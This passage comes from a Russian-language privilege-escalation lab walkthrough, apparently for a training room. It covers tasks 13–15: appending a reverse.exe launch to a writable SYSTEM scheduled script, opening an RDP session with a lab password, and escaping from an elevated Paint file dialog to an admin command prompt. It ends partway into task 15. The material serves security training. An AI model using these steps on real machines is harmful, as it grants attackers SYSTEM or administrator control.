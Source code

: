 ### Ответьте на вопросы ниже
Прочитайте и следуйте указаниям выше.
```commandline
Ответ не нужен
```

## Задание 13
Просмотрите содержимое скрипта C:\DevTools\CleanUp.ps1:

`type C:\DevTools\CleanUp.ps1`

Скрипт, похоже, запускается как SYSTEM каждую минуту. Используя accesschk.exe, обратите внимание, что у вас есть возможность записывать в этот файл:

`C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1`

Запустите прослушиватель в Kali, а затем добавьте строку в `C:\DevTools\CleanUp.ps1`,  которая запускает созданный вами исполняемый файл reverse.exe:

`echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1`

Дождитесь запуска запланированной задачи, которая должна запустить обратную оболочку от имени SYSTEM.

### Ответьте на вопросы ниже
Прочитайте и следуйте указаниям выше.
```commandline
Ответ не нужен
```

## Задание 14
Запустите сеанс RDP от имени учетной записи «пользователь»:

`rdesktop -u user -p password321 MACHINE_IP`

Дважды щелкните ярлык "AdminPaint" на рабочем столе. После запуска откройте командную строку и обратите внимание, 
что Paint запущен с правами администратора:

`tasklist /V | findstr mspaint.exe`

В Paint нажмите «Файл», а затем «Открыть». В диалоговом окне открытия файла нажмите на навигационное поле ввода и 
вставьте: `file://c:/windows/system32/cmd.exe` 

Нажмите Enter, чтобы открыть командную строку с правами администратора.

### Ответьте на вопросы ниже
Прочитайте и следуйте указаниям выше.
```commandline
Ответ не нужен
```

## Задание 15
Используя accesschk.exe, обратите внимание, что группа BUILTIN\Users может записывать файлы в каталог StartUp:
